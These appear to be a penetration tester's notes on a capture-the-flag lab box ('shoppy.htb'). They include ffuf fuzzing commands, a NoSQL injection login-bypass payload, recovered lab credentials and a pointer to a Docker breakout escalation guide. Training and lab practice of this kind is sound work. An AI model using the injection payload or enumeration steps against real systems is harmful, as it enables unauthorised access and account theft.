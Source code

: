 loginb page at `/login`
![](Pasted%20image%2020221204165958.png)
* fuzz it a bunch - hits on NoSQL.txt
* ![](Pasted%20image%2020221204165841.png)
* `ffuf -u http://shoppy.htb/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'`
* use `admin' || 'a'=='a` in the username field - any pass is fine
* ![](Pasted%20image%2020221204170128.png)

## Enumerating admin portal
* has user search function
* has download export function
* ![](Pasted%20image%2020221204170257.png)
* ![](Pasted%20image%2020221204170306.png)
* try same payload in search
* ![](Pasted%20image%2020221204170458.png)
	* `6ebcea65320589ca4f2f1ce039975995` - probably md5??
	* `remembermethisway`

# User Josh
* ssh doesnt work
* no other open ports that could be used to login but there was the 'beta' site reference on the landing page
	* ![](Pasted%20image%2020221204170757.png)
	* subdomain enum??
	* `ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb" -fs 169`
	* negative response return w/response size 169
	* ![](Pasted%20image%2020221204183037.png)
	* username: jaeger // password: Sh0ppyBest@pp!
	* ![](Pasted%20image%2020221204183132.png)
	* ![](Pasted%20image%2020221204183240.png)
	* creds fail for the password-manager
	* ![](Pasted%20image%2020221204183358.png)
	* ![](Pasted%20image%2020221204183420.png)
	* `Sample` works for the master pass
	* ![](Pasted%20image%2020221204183513.png)
	* ![](Pasted%20image%2020221204183547.png)
	* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
	* ![](Pasted%20image%2020221204183624.png)
	* ![](Pasted%20image%2020221204183649.png)



